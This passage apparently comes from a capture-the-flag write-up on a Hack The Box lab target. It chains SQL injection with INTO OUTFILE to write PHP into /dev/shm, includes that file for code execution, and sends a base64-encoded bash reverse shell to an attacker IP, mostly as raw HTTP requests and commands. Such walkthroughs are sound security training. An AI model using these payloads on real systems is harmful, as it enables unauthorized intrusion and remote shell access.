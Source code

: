```
GET /shop/index.php?page=product&id=%0a20'%20Union%20Select%201,'%3C%3Fphp%20echo%20%22in%22%3B%3F%3E',3,4,5,6,7,8%20Into%20OUTFILE%20'/dev/shm/rce.php'%20--%20-1 HTTP/1.1
```

Then included the created file using the shop.


```http
GET /shop/index.php?page=/dev/shm/rce HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: PHPSESSID=kfcu02o7lt7hifcejonm6v3m0b
Upgrade-Insecure-Requests: 1
```

It printed 'in' in the response. Which meant the code was executed.

```http
HTTP/1.1 200 OK
Date: Sat, 07 Oct 2023 17:46:55 GMT
Server: Apache/2.4.54 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 23
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

1 in 3 4.00 5.00 6 7 8
```

I used this to create a reverse shell. I started by using base64 to encode the reverse shell command.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.55/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTUvNDQ0NCAwPiYxICAK
```

I created PHP code to execute the reverse shell.

```php
<?php `echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTUvNDQ0NCAwPiYxICAK | base64 -d | bash`; ?>
```

I URL encoded it, and sent it to the server.

```http
GET /shop/index.php?page=product&id=%0a20'%20Union%20Select%201,'%3C%3Fphp%20%60echo%20%2Dn%20YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTUvNDQ0NCAwPiYxICAK%20%7C%20base64%20%2Dd%20%7C%20bash%60%3B%20%3F%3E',3,4,5,6,7,8%20Into%20OUTFILE%20'/dev/shm/shell.php'%20--%20-1 HTTP/1.1
```
